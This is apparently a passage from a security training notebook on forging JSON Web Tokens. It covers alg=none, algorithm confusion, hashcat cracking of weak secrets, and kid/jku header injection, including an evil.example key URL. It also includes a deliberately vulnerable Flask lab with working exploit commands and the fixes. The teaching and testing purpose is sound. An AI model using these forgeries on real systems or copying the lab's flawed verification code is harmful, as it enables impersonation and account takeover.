






This is Chapter 3 of the Access & Logic notebook — Notebook 25. The previous chapter attacked the
authentication *process* — logins, resets, MFA. This chapter attacks the *credential the process
issues*: the token that represents an authenticated session on every subsequent request. In
particular it targets the **JSON Web Token (JWT)**, the format that dominates modern APIs and
single-page apps, and the specific, well-defined ways JWTs are forged.

JWTs are interesting to attackers because they are **stateless** and **self-contained**: unlike an
opaque session ID that references server-side state, a JWT *carries* the user's identity and
claims (`user`, `role`, `exp`) inside the token itself, protected only by a cryptographic
signature. That design shifts the security burden entirely onto the signature and its
verification. If an attacker can make the server accept a token whose claims they control — by
stripping the signature, confusing the algorithm, cracking a weak secret, or abusing a header that
tells the server which key to trust — they can set `"role":"admin"` or `"user":"victim"` and
become anyone. There is no server-side session to contradict them, because the token *is* the
session.

This chapter builds the JWT from its raw bytes, explains what the signature does and doesn't
protect, and then walks the complete forgery catalogue with real tooling (`jwt_tool`, `hashcat`)
and a reproducible lab. As always this is **authorized-only**: forging a token is impersonation, so
you demonstrate it against *your own* test accounts on applications you're permitted to test,
escalating your *own* token to prove the flaw, never operating on real users' tokens or data.

## Part 1: Anatomy of a JWT — Header, Payload, Signature

A JWT is three base64url-encoded parts joined by dots: `header.payload.signature`. It looks like
one opaque blob but is trivially decodable — base64url is *encoding*, not encryption. Take a real
token apart:

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWxpY2UiLCJyb2xlIjoidXNlciIsImV4cCI6MTcwMDAwMDAwMH0.3Rf...sig
└────────── header ──────────┘ └──────────────── payload ────────────────┘ └─ signature ─┘
```

Decoding the first two parts (just base64url, no key needed):

```json
// header  — describes the token type and signing algorithm
{ "alg": "HS256", "typ": "JWT" }
// payload — the "claims": statements about the user + metadata
{ "user": "alice", "role": "user", "exp": 1700000000 }
```

```bash
# Decode any JWT part by hand — base64url may need padding fixed:
echo 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9' | tr '_-' '/+' | base64 -d 2>/dev/null
# -> {"alg":"HS256","typ":"JWT"}
```

The **payload** carries *claims*. Standard registered claims include `iss` (issuer), `sub`
(subject/user), `aud` (audience), `exp` (expiry, Unix time), `nbf` (not-before), `iat` (issued-at),
and `jti` (unique token id). Applications add custom claims like `role`, `admin`, `email`,
`tenant`. **Anyone can read and edit these** — the payload is not secret and not, by itself,
protected. What stops an attacker changing `"role":"user"` to `"role":"admin"` is *only* the
signature over the header+payload. That single fact is the root of every JWT attack: break or
bypass the signature verification and the claims become attacker-controlled.

| Part | Contents | Secret? | Protected by |
|---|---|---|---|
| Header | `alg`, `typ`, sometimes `kid`/`jku`/`jwk` | No | Signature (but header chooses the alg!) |
| Payload | Claims (`user`, `role`, `exp`, ...) | No | Signature |
| Signature | MAC/signature over `base64url(header).base64url(payload)` | Depends on alg | The signing key |

**Security relevance:** never put secrets in a JWT payload (it's readable), and never trust a claim
your server didn't verify the signature over. The header choosing the algorithm (a value the
*client* sends) is the design wart that enables the `alg=none` and confusion attacks below.

## Part 2: The Signature — HS256 vs RS256 and What They Protect

The signature is computed over `base64url(header) + "." + base64url(payload)` using the algorithm
named in the header. Two families dominate:

**HS256 (HMAC-SHA256) — symmetric.** The signature is `HMAC-SHA256(header.payload, secret)` where
`secret` is a single shared key the server holds. Verification recomputes the HMAC with the *same*
secret and compares. Whoever knows the secret can both *create* and *verify* tokens. Security
rests entirely on the secret's strength and confidentiality — a weak or leaked secret means anyone
can forge.

**RS256 (RSA-SHA256) — asymmetric.** The server signs with a **private** key and verifies with the
corresponding **public** key. Only the private-key holder can *create* valid tokens; anyone with
the public key can *verify* them (the public key is meant to be public). This separation is the
whole point: clients/other services can verify without being able to forge.



The critical attacker insight: **the server decides which key and algorithm to use based on the
token's own header.** If verification logic naively trusts `header.alg`, an attacker can change the
algorithm to one that lets them forge — the basis of `alg=none` (Part 3) and HS/RS confusion
(Part 4). A correct implementation *pins* the expected algorithm server-side and ignores the
header's suggestion.

## Part 3: The `alg=none` Attack — Unsigned Tokens

The JWT spec defines an algorithm value `none` meaning "unsecured JWT" — no signature at all. It
exists for cases where integrity is guaranteed by other means, but a verifier that *accepts* it
for a normally-signed token is catastrophically broken: the attacker sets `alg` to `none`, edits
the payload freely, and appends an empty signature.

```text
# Original:  {"alg":"HS256"}.{"user":"alice","role":"user"}.<valid-sig>
# Forged:    {"alg":"none"}.{"user":"alice","role":"admin"}.        <- no signature, trailing dot
eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWxpY2UiLCJyb2xlIjoiYWRtaW4ifQ.
```

```bash
# Build an alg=none token by hand:
h=$(printf '{"alg":"none","typ":"JWT"}' | base64 | tr '+/' '-_' | tr -d '=')
p=$(printf '{"user":"alice","role":"admin"}' | base64 | tr '+/' '-_' | tr -d '=')
echo "$h.$p."          # note the trailing dot — empty signature
```

Variants that bypass naive `none` blocklists: `None`, `NONE`, `nOnE` (case tricks), or `none ` with
whitespace — libraries that compared case-sensitively or trimmed inconsistently have been bypassed
this way. **The fix** is to never accept `none` for tokens that are supposed to be signed: pin the
algorithm to the expected signed value server-side. This bug is less common in current libraries
(most now reject `none` by default) but still appears in custom verification and misconfigured
libraries. **Bug-bounty relevance:** always try `alg=none` (and its case variants) first — it's a
five-second test that occasionally yields instant admin.

## Part 4: Algorithm Confusion — RS256 to HS256

The most elegant JWT attack. It targets servers that verify RS256 tokens but whose verification
code can be tricked into treating the token as HS256, using the **public key** (which the attacker
has) as the HMAC secret.

The mechanism: many libraries expose a single `verify(token, key)` that picks HMAC or RSA based on
`header.alg`. The server intends RS256 and passes the RSA **public key** as `key`. If the attacker
changes `header.alg` to `HS256`, a vulnerable library now runs `HMAC-SHA256(token, key)` where
`key` is the *public key bytes* — and since the public key is **public**, the attacker can compute
that exact HMAC and forge a valid signature.



The steps in practice:

```bash
# 1. Obtain the server's RSA public key. Often at a JWKS endpoint or derivable from two tokens.
#    Common locations: /.well-known/jwks.json, /jwks, or embedded in the app.
curl -s https://app.example/.well-known/jwks.json    # contains the public key (n, e) or PEM

# 2. Convert JWKS to a PEM public key (jwt_tool / openssl / a small script).
# 3. Forge an HS256 token using the PEM public key file as the HMAC secret:
python3 jwt_tool.py <token> -X k -pk public.pem       # jwt_tool's key-confusion mode
#   -X k  = algorithm-confusion (key) attack;  -pk = the public key file to use as the HMAC secret
```

When the JWKS endpoint is **not** exposed, the RSA public key can still be *recovered from two
signed tokens*. Given two RS256 JWTs signed by the same key, the modulus `n` can be computed with a
GCD-based algorithm (the public exponent `e` is almost always `65537`), because each signature
reveals a multiple of `n`. Tooling automates this:

```bash
# Recover the RSA public key from two captured tokens (no JWKS needed):
docker run -it portswigger/sig2n <token1> <token2>     # prints candidate public keys (PEM)
# sig2n outputs one or two candidate n values; try each PEM as the HMAC secret for confusion.
```

You then use each candidate PEM exactly as in the JWKS case. This is why "we don't publish the
public key" is *not* a defense against algorithm confusion — the key is derivable from the tokens
themselves.

The subtlety that makes this reliable: the HMAC secret must be the **exact byte representation** of
the public key the server uses to verify — typically the PEM text including headers/newlines.
Getting the exact bytes right (PEM vs DER, trailing newline) is the whole craft; `jwt_tool` and
Burp's JWT Editor extension automate deriving and testing candidate representations. **The fix:**
verification must *pin the algorithm* (only accept RS256) and use an API that separates "verify
with public key (RSA)" from "verify with secret (HMAC)" so a header can't switch families.

## Part 5: Weak HMAC Secrets — Cracking HS256 Offline

If a token is HS256, its security is entirely the secret's strength. Because the signature is a
deterministic HMAC over known data (the header and payload, both readable), an attacker can crack a
*weak* secret **offline**: guess a candidate secret, recompute `HMAC(header.payload, guess)`, and
compare to the token's signature — no interaction with the server, unlimited speed.

```bash
# hashcat mode 16500 = JWT (HMAC). Feed the whole token; hashcat brute/dictionaries the secret.
hashcat -a 0 -m 16500 token.jwt /usr/share/wordlists/rockyou.txt
#   -a 0 = straight dictionary attack, -m 16500 = JWT HS*, token.jwt holds the full JWT
# On a crack:
#   eyJhbGci...  :  secretkey123        <- the HMAC secret, recovered
```

`john` (`--format=HMAC-SHA256`) and `jwt_tool`'s `-C -d wordlist` do the same. Real apps have been
found signing with secrets like `secret`, `password`, `changeme`, the app name, or a value copied
from a tutorial — all instantly in `rockyou.txt`. Once the secret is known, the attacker forges
*any* token: set `role=admin`, re-sign with the cracked secret, done.

```bash
# After cracking the secret, forge an admin token with jwt_tool:
python3 jwt_tool.py <token> -S hs256 -p 'secretkey123' -T
#   -S hs256 sign with HS256, -p the (now known) secret, -T tamper mode to edit claims interactively
```

**Defense:** HMAC secrets must be long (≥256 bits), random, and unique per environment — treat them
like private keys, store in a secrets manager, rotate them. A short/dictionary secret turns HS256
into a formality. **CTF relevance:** weak-secret JWT cracking is one of the most common web-CTF JWT
challenges — `hashcat -m 16500` against `rockyou.txt` solves a large fraction of them.

| Attack | Precondition | Tool | Yields |
|---|---|---|---|
| `alg=none` | Verifier accepts `none` | manual / jwt_tool `-X a` | Forge any claim, no key |
| HS/RS confusion | RS256 verified via key-agnostic API + known public key | jwt_tool `-X k` | Forge with public key |
| Weak-secret crack | HS256 with guessable secret | hashcat `-m 16500` | Recover secret → forge |
| `kid` injection | `kid` used in file/db/command path | jwt_tool `-I -hc kid -hv ...` | Control the verification key |
| `jku`/`x5u`/`jwk` abuse | Verifier fetches/trusts header-supplied key | jwt_tool `-X s`/`-X i` | Supply attacker key |

## Part 6: Header-Parameter Attacks — `kid`, `jku`, `x5u`, `jwk`

The JWT header can carry parameters that tell the verifier *which key* to use. If the server
trusts these attacker-controlled values, they become injection and key-substitution vectors.

**`kid` (key ID) injection.** `kid` identifies which key to load for verification. Servers often
use it to look up a key by filename or database row. If `kid` is concatenated into a file path,
SQL query, or command without sanitisation, it's injectable:

- **Path traversal / predictable-file:** point `kid` at a file whose contents you know or control,
  then sign with that known value. A classic is `kid: "../../../../dev/null"` — the loaded "key" is
  empty, so sign the token with an empty key and it verifies:

```text
# kid points at a file with known/empty contents; sign HS256 with that known content
{"alg":"HS256","kid":"../../../../../../dev/null"}.{...,"role":"admin"}.<HMAC with empty key>
```

- **SQL injection via `kid`:** if `kid` feeds `SELECT key FROM keys WHERE id='<kid>'`, inject a
  `UNION SELECT` to make the query *return an attacker-chosen key*, then sign with it:

```text
{"alg":"HS256","kid":"x' UNION SELECT 'attackerkey'-- -"}   → server "loads" key = attackerkey
# sign the token's HMAC with 'attackerkey' and it verifies
```

- **Command injection via `kid`:** if `kid` reaches a shell (`cat /keys/<kid>`), inject OS commands.

**`jku` (JWK Set URL).** Points the verifier at a URL to fetch the signing key set. If the server
fetches and trusts *any* `jku`, the attacker hosts their own JWKS containing *their* public key,
signs the token with the matching private key, and points `jku` at their server — verification
succeeds against the attacker's key:

```text
{"alg":"RS256","jku":"https://evil.example/jwks.json","kid":"attacker-key"}
# evil.example/jwks.json holds the attacker's public key; token signed with attacker's private key
```

**`x5u` / `x5c`** are the X.509 equivalents (certificate URL / certificate chain) with the same
abuse: supply your own cert. **`jwk`** embeds the public key *directly in the header*; a verifier
that trusts the embedded `jwk` will verify against the attacker's supplied key — self-signed
forgery.



**Defense:** never derive the verification key from untrusted header parameters. Use a fixed,
server-side key (or a strict allow-list of `kid`→key mappings and a `jku` allow-list of your own
domains). Sanitise `kid` as you would any input reaching a file path / query / shell. **Bug-bounty
relevance:** `jku`-trust and `kid`-injection are high-value because they yield arbitrary-key
forgery; test every header parameter your target's tokens carry.

## Part 7: Claim Tampering and Verification-Logic Bugs

Even with a sound signature scheme, apps mishandle *claims* and *verification flow*:

- **Signature not actually verified.** Some code decodes the payload (`jwt.decode` without
  verification, or `verify=False`) and reads claims without checking the signature at all — edit
  freely. Test by mangling the signature: if the token still works, it isn't being verified.
- **Expiry (`exp`) not enforced.** The server reads `role` but ignores `exp`, so a captured token
  never dies — replay indefinitely. Test with an expired token.
- **`iss`/`aud` not validated.** A token from a *different* issuer or intended for a different
  audience (e.g. a lower-trust service, or another tenant) is accepted — cross-service/tenant
  confusion.
- **Trusting claims for authorization directly.** `role`/`isAdmin`/`tenant` in the token drive
  access decisions; combined with any signature bypass this is instant privilege escalation (and
  ties back to Chapter 1's access-control failures).
- **`nbf` / `iat` mishandling, clock-skew abuse, and JWT confusion** (accepting an access token
  where a refresh/ID token is expected).

The pragmatic test order on any JWT target: (1) mangle the signature — is it verified at all? (2)
`alg=none` and case variants; (3) HS/RS confusion if RS256; (4) crack the secret if HS256; (5)
header params (`kid`/`jku`/`jwk`); (6) tamper `exp`/`iss`/`aud`/`role` to probe claim enforcement.

## Part 8: `jwt_tool` From Zero

**`jwt_tool`** is the Swiss-army knife for JWT testing: it decodes tokens, runs an automated
vulnerability scan ("playbook"), and performs each forgery attack. Install and learn its core
modes:

```bash
git clone https://github.com/ticarpi/jwt_tool && cd jwt_tool
pip install -r requirements.txt
python3 jwt_tool.py <token>                      # decode + show claims
python3 jwt_tool.py <token> -M pb                 # "playbook" — automated all-checks scan vs a target
python3 jwt_tool.py -t https://app/api -rh "Authorization: Bearer <token>" -M at   # active tampering scan
```

The attack modes map onto this chapter:

| jwt_tool flag | Attack | Chapter part |
|---|---|---|
| `-X a` | `alg=none` (Exploit: none) | Part 3 |
| `-X k -pk public.pem` | Key/algorithm confusion (RS→HS) | Part 4 |
| `-C -d wordlist.txt` | Crack HMAC secret (dictionary) | Part 5 |
| `-X i` | Inject embedded `jwk` (self-sign) | Part 6 |
| `-X s -ju <url>` | Spoof `jku` to attacker JWKS | Part 6 |
| `-I -hc kid -hv ...` | `kid` header injection | Part 6 |
| `-T` | Interactive tamper (edit claims) then re-sign | Part 7 |
| `-S hs256 -p <secret>` | Sign with a known/cracked secret | Part 5 |

Burp Suite's **JWT Editor** extension does the same inside Burp (with a nice "attack" menu for
none/confusion/embedded-jwk), which is convenient when the token rides in a header you're already
manipulating in Repeater.

## Part 9: Hands-On Lab — Forge an Admin Token Four Ways

A reproducible lab: a deliberately vulnerable API that (mis)verifies JWTs, letting you practise
`alg=none`, weak-secret cracking, and claim tampering. Local and yours.

### 9.1 The vulnerable API

```python
# jwt_app.py — INTENTIONALLY VULNERABLE. Lab only.
import jwt   # PyJWT
from flask import Flask, request, jsonify
app = Flask(__name__)
SECRET = "secret"                                     # BUG: trivially weak HMAC secret

@app.route("/login")
def login():
    # issues an HS256 token for a normal user
    return jwt.encode({"user": "alice", "role": "user"}, SECRET, algorithm="HS256")

@app.route("/admin")
def admin():
    token = request.headers.get("Authorization", "").replace("Bearer ", "")
    try:
        # BUG: accepts alg=none AND trusts the header alg (algorithms not pinned properly)
        data = jwt.decode(token, SECRET, algorithms=["HS256", "none"], options={"verify_signature": True})
    except Exception as e:
        # a second BUG path some apps have: decode without verification
        data = jwt.decode(token, options={"verify_signature": False})
    if data.get("role") == "admin":
        return jsonify({"secret": "flag{admin_access_granted}"})
    return jsonify({"role": data.get("role")}), 403

if __name__ == "__main__": app.run(port=5000)
```

Get a normal token: `curl -s http://127.0.0.1:5000/login`.

### 9.2 Exploit 1 — crack the weak secret, forge admin

```bash
TOKEN=$(curl -s http://127.0.0.1:5000/login)
echo "$TOKEN" > token.jwt
hashcat -a 0 -m 16500 token.jwt /usr/share/wordlists/rockyou.txt --quiet
# -> ...:secret        (secret recovered)
python3 jwt_tool.py "$TOKEN" -S hs256 -p 'secret' -T    # tamper role→admin, re-sign
# copy the forged token, then:
curl -s http://127.0.0.1:5000/admin -H "Authorization: Bearer <forged>"
# -> {"secret":"flag{admin_access_granted}"}
```

### 9.3 Exploit 2 — `alg=none`

```bash
h=$(printf '{"alg":"none","typ":"JWT"}' | base64 | tr '+/' '-_' | tr -d '=')
p=$(printf '{"user":"alice","role":"admin"}' | base64 | tr '+/' '-_' | tr -d '=')
curl -s http://127.0.0.1:5000/admin -H "Authorization: Bearer $h.$p."
# -> {"secret":"flag{admin_access_granted}"}   (unsigned token accepted)
```

### 9.4 Exploit 3 — signature-not-verified path

If the app falls back to `verify_signature: False`, simply tamper the payload and mangle the sig:

```bash
python3 jwt_tool.py "$TOKEN" -T          # set role=admin; leave signature invalid
# if the fallback decode path runs, the invalid signature is ignored and admin is granted
```

### 9.4b Exploit 4 — `kid` path traversal (sign with an empty key)

For a build of the app that loads its key from a file named by `kid`, point `kid` at a file whose
contents you know are empty and sign the token's HMAC with an empty key:

```bash
# Header: {"alg":"HS256","kid":"../../../../../../dev/null"}   → server "reads" an empty key
python3 jwt_tool.py "$TOKEN" -I -hc kid -hv "../../../../../../dev/null" -S hs256 -p "" -T
#  -I inject into header, -hc/-hv set header claim kid=<traversal>, sign HS256 with empty secret,
#  -T tamper role=admin. The server HMAC-verifies with an empty key → matches → admin.
```

Because `/dev/null` reads as zero bytes, the "secret" the server uses is the empty string — which
the attacker also used to sign. Any predictable-content file works the same way (e.g. a static CSS
asset whose bytes you can fetch).

### 9.4c Exploit 5 — `jku` spoof to an attacker key set

For an RS256 build that fetches the key set from the header `jku`, host your own JWKS and point at
it:

```bash
# 1. Generate a keypair and publish a JWKS containing YOUR public key at http://127.0.0.1:9000/jwks.json
# 2. Forge the token with jku pointing at your JWKS, signed with YOUR private key:
python3 jwt_tool.py "$TOKEN" -X s -ju "http://127.0.0.1:9000/jwks.json" -T
#  -X s = jku spoofing mode; jwt_tool builds the JWKS and signs with a matching key.
curl -s http://127.0.0.1:5000/admin -H "Authorization: Bearer <forged>"
# -> admin, because the server trusted the attacker-supplied jku and verified against the attacker key
```

### 9.5 The fixes, demonstrated

```python
# Pin ONE algorithm; never accept none; always verify; enforce exp/iss/aud.
data = jwt.decode(token, SECRET, algorithms=["HS256"],           # exactly one, no "none"
                  options={"require": ["exp"], "verify_signature": True},
                  issuer="app.example", audience="app-api")
# And use a STRONG secret:
SECRET = os.environ["JWT_SECRET"]        # 32+ random bytes from a secrets manager, not "secret"
```

With a pinned algorithm, no `none`, mandatory verification, and a strong secret, all three
exploits fail: `alg=none` is rejected, the cracked-secret path no longer exists (secret is
strong/random), and the no-verify fallback is removed.

### 9.6 PortSwigger JWT drills

```text
- "JWT authentication bypass via unverified signature"          → Part 7 (sig not checked)
- "JWT authentication bypass via flawed signature verification" → alg=none / accept-any
- "JWT authentication bypass via weak signing key"              → Part 5 (hashcat -m 16500)
- "JWT authentication bypass via jwk header injection"          → Part 6 (embedded jwk)
- "JWT authentication bypass via jku header injection"          → Part 6 (jku spoof)
- "JWT authentication bypass via kid header path traversal"     → Part 6 (kid → /dev/null)
- "JWT authentication bypass via algorithm confusion" (+ no exposed key) → Part 4
```

These labs, with Burp's JWT Editor, are the definitive practical drill for this chapter.

## Part 10: Real-World Impact, CVEs & Escalation

JWT flaws are high-impact because a forged token is *authentication itself* — success is
impersonation of any user, usually admin:

- **`alg=none` acceptance** was a widespread library bug (multiple JWT libraries historically
  accepted `none`), yielding trivial full authentication bypass; it drove libraries to reject
  `none` by default and to require explicit algorithm allow-lists.
- **Algorithm confusion (RS→HS)** is a documented class affecting libraries with key-type-agnostic
  verify APIs; where the RSA public key is published (JWKS), it's a clean forge-any-token bug.
- **Weak HMAC secrets** appear constantly in the wild — tutorial secrets, `secret`, short strings —
  crackable in seconds and yielding full forgery.
- **`kid`/`jku` injection** has produced SQLi, path traversal, and key-substitution leading to
  authentication bypass on real applications.
- **Missing `exp`/signature verification** yields infinite token replay and tamperable claims.

A useful way to internalise the impact is the "cost to forge" ladder — how much effort each
weakness demands from the attacker, lowest first: **`alg=none`** costs nothing (edit + empty sig);
**signature-not-verified** costs nothing (edit, leave a garbage sig); a **weak HMAC secret** costs
seconds of offline cracking; **algorithm confusion** costs the effort of obtaining/deriving the
public key and getting its byte representation exact; **`kid`/`jku`/`jwk`** abuse costs a crafted
header and (for `jku`) a hosted key set. Every rung ends at the same place — a token whose claims
the attacker controls — so a defender cannot afford to leave *any* rung standing; partial hardening
(e.g. rejecting `none` but still using a weak secret) just moves the attacker one rung up. This is
why the defenses in the next section are a *set*, not a menu.

JWT attacks fall under OWASP **A07 Identification and Authentication Failures** (and **A02
Cryptographic Failures** for the crypto bugs). The escalation is direct: any signature bypass →
set `role:admin`/`user:victim` → impersonate/escalate → the same account-takeover and privilege-
escalation end states as Chapters 1–2, but reached by forging the credential rather than guessing
it.



## Part 11: Refresh Tokens, OAuth/OIDC Tokens, and Token-Type Confusion

JWTs rarely travel alone. In modern auth (OAuth 2.0 / OpenID Connect) a login yields a *set* of
tokens with different jobs, and confusing them — or mishandling the long-lived one — is its own
attack surface that this chapter's techniques feed into.

**The token trio.** After an OIDC login you typically get:

| Token | Purpose | Lifetime | Sent to |
|---|---|---|---|
| **Access token** | Authorizes API calls (a JWT or opaque) | Short (minutes) | Resource server / API |
| **Refresh token** | Obtains new access tokens without re-login | Long (days–months) | Auth server only |
| **ID token** (OIDC) | Proves *who* authenticated, for the client app | Short | The client, not the API |

**Token-type confusion.** Each token has an intended audience (`aud`) and type; accepting the wrong
one is a bug. Classic instances: an API that accepts the **ID token** (meant for the client) as an
**access token** because it only checks the signature and `role`, not `aud`/token-use; or a service
that accepts an access token minted for a *different, lower-trust* service. The defense is the claim
validation from Part 7 — enforce `aud`, `iss`, and any `token_use`/`typ` claim so a token minted for
one purpose can't be replayed at another. **Test:** take the ID token and present it where the
access token goes; take a token from a sibling service and try it against the target.

**Refresh-token attacks.** Because refresh tokens are long-lived and mint fresh access tokens,
they're a high-value theft target and a place where logic fails:

- **No rotation.** A refresh token that never changes is a durable credential; one leak = long-term
  access. Best practice is **refresh-token rotation** (each use issues a new refresh token and
